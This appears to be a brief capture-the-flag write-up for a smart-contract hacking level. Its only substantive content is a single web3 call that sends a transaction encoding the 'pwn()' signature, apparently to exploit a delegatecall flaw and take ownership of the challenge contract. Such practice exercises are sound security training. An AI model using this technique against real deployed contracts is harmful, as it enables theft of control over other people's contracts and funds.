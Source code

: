 ## Description
That was a very interesting level. I'd like to do more like that. 
```
await contract.sendTransaction({data:web3.eth.abi.encodeFunctionSignature('pwn()')})
```
Thank the authors